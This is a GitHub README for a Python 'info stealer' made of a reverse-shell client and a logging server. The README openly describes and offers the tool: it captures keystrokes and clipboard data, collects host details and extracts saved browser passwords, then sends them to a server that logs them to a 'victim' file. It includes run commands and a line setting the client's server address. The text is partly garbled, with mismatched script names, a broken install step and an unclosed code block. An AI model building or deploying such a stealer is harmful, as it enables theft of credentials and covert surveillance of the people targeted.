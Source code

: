 # simple info stealer Project

This project consists of a reverse shell implementation with keylogging capabilities. It involves two main components: a client script (`reversShell.py`) that runs on the target machine and sends data back to a server, and a server script (`server.py`) that receives and logs the data sent by the client.

## Features

1. **Socket Communication**:
   - Establishes a socket connection between the client and the server.
   - Sends data from the client to the server.

2. **Keylogging**:
   - Captures keystrokes on the client machine.
   - Sends captured keystrokes to the server.

3. **Clipboard Data**:
   - Captures clipboard data from the client machine.
   - Sends clipboard data to the server.

4. **Host Information**:
   - Gathers detailed information about the host machine, including:
     - Hostname
     - Private and public IP addresses
     - Processor information
     - Operating system details
     - Disk usage
     - Memory usage
   - Sends host information to the server.

5. **Password Stealing**:
   - Extracts saved passwords from browsers (Chrome, Edge, Firefox).
   - Sends extracted passwords to the server.

## Requirements

- Python 3.x
- Required Python libraries:
  - `pynput`
  - `requests`
  - `psutil`
  - `pywin32`

Install the required libraries using pip:

```sh
the reverseshell install the modules

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python reverseShell.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`reverseShell.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
